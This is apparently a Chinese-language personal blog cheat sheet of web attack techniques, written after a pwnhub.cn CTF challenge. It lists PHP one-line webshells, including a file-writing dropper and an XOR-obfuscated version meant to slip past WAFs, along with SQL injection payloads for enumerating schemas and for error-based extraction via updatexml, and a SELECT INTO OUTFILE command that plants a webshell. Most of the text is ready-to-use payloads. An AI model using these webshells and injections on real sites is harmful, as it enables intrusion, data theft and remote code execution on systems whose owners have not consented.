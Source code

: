 ```yaml
---
layout: post
title: WEB知识汇总贴
categories: [WEB]
description: WEB知识汇总贴
keywords: WEB
---
```


# WEB知识汇总贴

今天怼了一道pwnhub.cn的pwn题，然后那道pwn题最终是要利用一个sql注入。。然后今天学了各种WEB姿势，先开个帖，以后碰到以后总结

## 文件包含漏洞

典型值

```
index.php?page=xxx;
xxx可能是md5、也可能是文件名
文件包含漏洞可以直接读各种文件，也可以怼php伪协议执行任意php代码，上传webshell
```

## webshell的各种姿势

#### 各种一句话木马

```php
<?php echo system($_POST[1]);?>
---
POST 1=ls /home/ctf

<?php eval($_POST[1]);?>
<?php eval($_POST['passwd']);?> 
可以用菜刀直接连

<?php fputs(fopen('shell.php','w'),'<?php eval($_POST[shell])?>');?>
可以改变木马等输出路径、也可以利用解析漏洞去解析木马

```

还有各种混淆版本，绕过waf，如

```php
<?php @$_++;
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");         // $__的值为_POST
@${$__}[!$_](${$__}[$_]);?>

```

也可以base64等各种编码解码。参考资料：

* http://www.91ri.org/11494.html
* http://www.mamicode.com/info-detail-1466690.html
* http://www.shangxueba.com/jingyan/1617540.html

菜刀不管用可以手动测试分析问题，有时候菜刀就是不管用

## 各种SQL注入

### 爆数据库名、表名、列名

```
select concat(group_concat(distinct schema_name)) from information_schema.schemata
select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=十六进制数据库名
select concat(group_concat(distinct column_name)) from information_schema.columns where table_schema=十六进制数据库名 and table_name=十六进制表名

```

### 报错注入 

如果能够回显SQL的错误信息，则可以通过报错注入爆各种想爆的信息

```
select * from TOKENS where PASSWORD = 1 and (updatexml(0x3a,concat(1,(select user())),1))
---
ERROR 1105 (HY000): XPATH syntax error: 'pwnhub@localhost'

```

```
insert into TOKENS (TOKENS,PASSWORD) VALUES('222',''+(select TOKENS from BID where TOKENS =1233 and (updatexml(0x3a,concat(1,(select @@secure_file_priv)),1))));
---
ERROR 1105 (HY000): XPATH syntax error: '/var/lib/mysql-files/'
```

```
insert into TOKENS (TOKENS,PASSWORD) VALUES('222',''+(select TOKENS from BID where TOKENS =1233 and (updatexml(0x3a,concat(1,(select concat(group_concat(distinct table_name)) from information_schema.tables where table_schema=0x646174657769746866697265)),1))))
---
ERROR 1105 (HY000): XPATH syntax error: 'BID,TOKENS'

```

更多详见http://www.cnblogs.com/Dleo/p/5493782.html

### SQL盲注

#### bool 盲注

### 利用SQL注入上传一句话木马

```
SELECT '<?php eval($_POST[1]);?>' INTO OUTFILE '/tmp/shell.php'

```
能否上传成功取决于select @@secure_file_priv的值，如果为空则在mysql层面上不做访问控制，如果为某目录则只能写到该目录中

```
select @@secure_file_priv
```

## 其他基础知识

### MYSQL相关

```
CREATE USER 'username'@'host' IDENTIFIED BY 'password';
grant all privileges on *.* to pwnhub@localhost
```
